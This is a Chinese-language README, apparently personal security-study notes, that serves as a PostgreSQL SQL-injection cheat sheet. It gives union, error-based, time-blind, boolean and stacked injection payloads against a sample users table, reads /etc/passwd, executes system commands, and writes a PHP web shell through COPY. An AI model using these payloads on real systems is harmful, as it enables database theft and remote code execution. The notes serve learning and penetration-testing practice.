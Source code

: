 # PostgreSQL

## 安装

https://www.runoob.com/postgresql/windows-install-postgresql.html



## 介绍

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS）。

默认端口是5432，默认用户名和数据库都是`postgres`。

## 环境

简单弄个数据表：

![image-20220318091519737](README.assets/image-20220318091519737.png)

## 语法上的一些差别

感觉postgresql对于类型上的限制更大一下，注入前语句最好都本地测试一下。



## 基本命令

指的是命令行操作psql的时候的基本命令

```postgresql
--列举数据库：
\l
--选择数据库：
\c 数据库名
--查看该某个库中的所有表：
\dt
--切换数据库：
\c interface
--查看某个库中的某个表结构：
\d 表名
--查看某个库中某个表的记录：
select * from apps limit 1;
--显示字符集：
\encoding
--退出psgl：
\q
--psql客户端每行仅仅显示一个字段以及该字段值.
\x

```





## 常见的查询命令

```sql
select CURRENT_SCHEMA()           #查看当前权限
#一般是public，用户默认情况下具有public权限，public默认具有创建和使用schema的权限，因此意味着可以在schema中创建对象（包括表）、列出schema中的对象，并在其权限允许时访问它们。



select user                       #查看用户
#默认是postgres


select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串


SELECT session_user;


SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
 
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
 
select pg_read_file("/etc/passwd");          #读取文件
select system("whoami");                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```



## 联合查询

```sql
select * from users where id = 1 order by 3
select * from users where id = -1 union select 1,'2','3'--这是注释
```

获取模式名称schemaname：

```sql
select * from users where id = -1 UNION SELECT NULL,schemaname,NULL FROM pg_tables--
```

获取数据表：

```sql
select * from users where id = -1 UNION SELECT NULL,tablename,NULL FROM pg_tables where schemaname in ('public')
```

获取列名：

```sql
select * from users where id = -1 UNION SELECT NULL,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='users' AND nspname='public'
```

获取内容：

```sql
select * from users where id = -1 UNION SELECT null,null,password from users
```



当然有比较简单的查询办法，因为`postgresql`中也是有`information`表的。

```sql
select * from users where id = -1 UNION select null,null, 'table_name' from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements';

select * from users where id = -1 UNION select null,null, column_name from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements' and table_name = 'users' limit 1 offset 1;
```



## 报错注入

```sql
select * from users where id = 1 AND 1=CAST((SELECT version())::text AS NUMERIC)
--错误:  无效的类型 numeric 输入语法: "PostgreSQL 14.2, compiled by Visual C++ build 1914, 64-bit"

```



## 时间盲注

postgresql中延时函数是`pg_sleep`。

```sql
select * from users where id = -1 or 1=(select 123 from PG_SLEEP(5))

```

## 堆叠注入

和`mysql`一样用分号。

## 布尔注入

```sql
select * from users where id = -1 union select 1,(select case when 1=2 then 'a' else 'b' end),'3' --
```

postgresql中没有`if`，用的是`case when xxx then xxx else xxx end`。

## 文件操作

列目录函数`pg_ls_dir`：

```sql
select * from users where id = -1 union select null,null,pg_ls_dir('./')
```



写文件（一般用于rce）：

```sql
CREATE TABLE hacktb (t TEXT);

INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>');

COPY hacktb(t) TO 'D:\1.txt';
```



读文件：

```sql
DROP table hacktb;
CREATE TABLE hacktb (t TEXT);
COPY hacktb from 'D:\flag';
select * from hacktb
```



实际上文件操作别的系列函数比如`pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()`等，但是这些都会收到权限和目录的限制，根据实际情况测试使用。